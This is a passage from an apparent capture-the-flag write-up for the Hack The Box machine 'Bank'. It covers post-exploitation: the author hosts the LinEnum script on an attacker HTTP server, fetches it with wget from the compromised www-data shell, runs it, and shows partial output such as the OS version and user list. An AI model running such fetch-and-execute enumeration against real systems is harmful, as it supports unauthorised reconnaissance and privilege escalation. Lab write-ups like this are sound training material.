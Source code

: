
### Post exploitation


Lets get LinEnum into server

```bash
# Into tools/LinEnum directory
python -m SimpleHTTPServer 8000
```

![LibEnum](images/LinEnum.sh-Screenshot_2021-02-01_21-15-06.png)

Into server run

```bash
wget http://10.10.14.141:8000/LibEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh > results.txt

```
it takes some times...

But then lets go to http://bank.htb/uploads/results.txt

#### Host Information

#### File system
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.5 LTS"
NAME="Ubuntu"
VERSION="14.04.5 LTS, Trusty Tahr"


#### Running processes

#### Installed applications

#### Users & Group

Logged as 
uid=33(www-data) gid=33(www-data) groups=33(www-data)


Groups
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)